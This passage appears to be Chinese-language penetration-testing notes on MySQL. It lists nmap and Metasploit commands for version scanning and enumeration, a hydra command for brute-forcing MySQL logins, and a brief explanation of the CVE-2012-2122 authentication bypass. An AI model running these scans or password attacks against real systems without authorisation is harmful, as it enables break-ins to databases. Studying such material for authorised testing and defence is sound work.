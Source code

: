 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>nmap:<br>nmap -sV -p 3306 IP<br>msf:<br>use auxiliary/scanner/mysql/mysql_version<br>``` |

#### [](#%E5%85%B6%E5%AE%83%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF)其它相关信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>use auxiliary/admin/mysql/mysql_enum<br>``` |

### [](#mysql-%E5%AF%86%E7%A0%81%E7%A0%B4%E8%A7%A3)Mysql 密码破解

#### [](#hydra-4)hydra

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>hydra -L user.txt -P password.txt -v mysql://IP<br>``` |

#### [](#msf-8)msf

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_login<br>``` |

### [](#mysql-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)Mysql 漏洞利用

#### [](#mysql-%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E6%BC%8F%E6%B4%9Ecve-2012-2122)MySQL 身份认证漏洞 (CVE-2012-2122)

[https://seclists.org/oss-sec/2012/q2/493](https://seclists.org/oss-sec/2012/q2/493)

memcmp() 的返回值都在\[127，-128\]之内，把两个字符串逐个字符的比较，如果找到不一样的，就把这两个字符相减后返回

memcmp() 返回 0 的时候 check\_scramble() 认证通过

